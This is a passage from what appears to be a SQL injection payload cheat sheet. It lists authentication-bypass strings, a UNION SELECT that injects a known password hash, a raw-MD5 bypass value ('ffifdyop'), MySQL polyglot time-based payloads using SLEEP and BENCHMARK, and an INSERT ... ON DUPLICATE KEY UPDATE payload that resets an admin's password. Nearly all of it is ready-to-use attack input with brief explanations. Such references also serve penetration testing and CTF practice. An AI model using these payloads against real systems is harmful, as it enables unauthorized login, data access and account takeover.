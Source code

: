 admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
</code></pre>

### Authentication Bypass (Raw MD5 SHA1)

When a raw md5 is used, the pass will be queried as a simple string, not a hexstring.

```
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`

```
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

Challenge demo available at [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772/)

### Polyglot injection (multicontext)

```
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```

### Routed injection

```
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

### Insert Statement - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```
